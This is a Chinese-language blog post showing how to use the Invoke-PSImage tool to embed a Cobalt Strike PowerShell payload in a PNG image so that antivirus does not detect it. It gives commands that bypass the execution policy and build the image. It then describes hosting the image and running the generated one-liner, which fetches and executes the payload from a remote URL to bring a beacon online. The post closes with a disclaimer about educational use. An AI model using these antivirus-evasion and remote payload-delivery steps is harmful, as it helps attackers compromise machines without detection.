 ```yaml
---
layout:     post
title:      Invoke-PSImage实现ps脚本免杀
subtitle:   Ps脚本免杀
date:       2020-05-17
author:     Cooltige
header-img: img/post-bg-ps.jpg
catalog: true
tags:
    - 免杀
---
```

# Invoke-PSImage
Invoke-PSImage可以将一个PowerShell脚本中的字节嵌入到PNG图像文件的像素之中，并生成一行执行命令来帮助我们从文件或Web（传递-Web标记）执行它们。

它会利用图片中每个像素点最后4位有效位的2个颜色值来存储Payload数据，虽然图片质量会受到影响，但是一般来说是看不出来有多大区别的。图片需要存储为PNG格式，由于Payload数据存储在颜色值中，因此这种格式可以进行无损压缩并且不会影响到Payload的执行。它可以接受目前绝大多数的图片类型作为输入，但输出必须为PNG格式，因为输出的图片数据需要是无损的。

图片的每一个像素都需要存储脚本的一个字节，所以你需要根据脚本中的字节数据大小来选择图片（尽可能多的像素点）。

项目地址:`https://github.com/peewpw/Invoke-PSImage`

# 实验前准备
### cs生成powershell脚本

![avatar](../img/ps_bypass_av/dc70ceed77fcabc703cdd5d3f02def6c.png)

payload.ps1
### 准备图片
![](http://cooltige.com/wp-content/uploads/2020/02/19d3f2e1cd905f9b8b037759249ff2ae.png)

1.jpg

### Invoke-PSImage文件
Invoke-PSImage.ps1
# 开始实验
首先将生成的payload.ps1进行在线查杀
virustotal:`www.virustotal.com`
![](http://cooltige.com/wp-content/uploads/2020/02/9e700a3d729cd2970c156ecf4acfee77.png)

然后将 payload.ps1 1.jpg Invoke-PSImage.ps1 放在一个文件夹(这里我放在桌面)
```
C:\Users\Administrator\Desktop>powershell -exec bypass

PS C:\Users\Administrator\Desktop> Import-Module .\Invoke-PSImage.ps1

PS C:\Users\Administrator\Desktop>Invoke-PSImage -Script .\payload.ps1 -Image .\1.jpg -Out .\shell.png -Web
```

![](http://cooltige.com/wp-content/uploads/2020/02/d0d0e0fe549dfd0365fdeaee67498b0c.png)

生成一个shell.png的免杀图片文件

将生成的文件拿去查杀

![](http://cooltige.com/wp-content/uploads/2020/02/f1294cb6d52dfa01aa17020ae9a446d7.png)

将生成的命令中的`http://example.com/shell.png`替换为你免杀图片的url，带入powershell中执行

![](http://cooltige.com/wp-content/uploads/2020/02/185f3178d181147b1671c92080b4620d.png)

![](http://cooltige.com/wp-content/uploads/2020/02/77af8c88af3f28d846b0dd431174eace.png)

完成上线

**本站提供的所有内容仅供学习、分享与交流，禁止用于非法途径，通过使用本站内容随之而来的风险与本站无关**
